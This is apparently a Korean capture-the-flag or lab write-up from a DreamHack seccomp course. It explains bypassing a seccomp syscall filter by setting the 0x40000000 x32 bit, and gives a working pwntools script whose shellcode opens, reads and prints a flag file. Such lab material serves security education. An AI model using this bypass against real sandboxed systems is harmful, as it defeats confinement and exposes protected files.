 `seccomp.py` 는 필터링된 시스템 콜 번호를 `0x40000000` 값과의  or 연산을 통해 우회하였다.

`seccomp.py` 를 실행해 보면 `open`, `read`, `write` 시스템 콜을 통해 flag 파일을 읽어서 출력시키는 것을 확인할 수 있다.

```python
#seccomp.py
from pwn import *
p = process("./seccomp")
context.arch = 'x86_64'
# open("flag","r")
payload = asm("mov eax, 0x40000000")
payload += asm("or eax, 2")
payload += asm("mov rdi, 0x67616c66")
payload += asm("push rdi")
payload += asm("mov rdi, rsp")
payload += asm("mov rsi, 0")
payload += asm("syscall")
# read(fd, rsp, 0xff);
payload += asm("mov rdi, rax") # open file fd
payload += asm("mov eax, 0x40000000")
payload += asm("or eax, 0")
payload += asm("mov rsi, rsp")
payload += asm("mov edx, 0xff") 
payload += asm("syscall")
# write(1, rsp, 0xff);
payload += asm("mov rdi, 1") # stdout 1 
payload += asm("mov eax, 0x40000000")
payload += asm("or eax, 1")
payload += asm("mov rsi, rsp")
payload += asm("mov edx, 0xff") 
payload += asm("syscall")
p.sendline(payload)
p.interactive()
```

> DreamHack SECCOMP Filter Bypass - <https://dreamhack.io/lecture/courses/263>
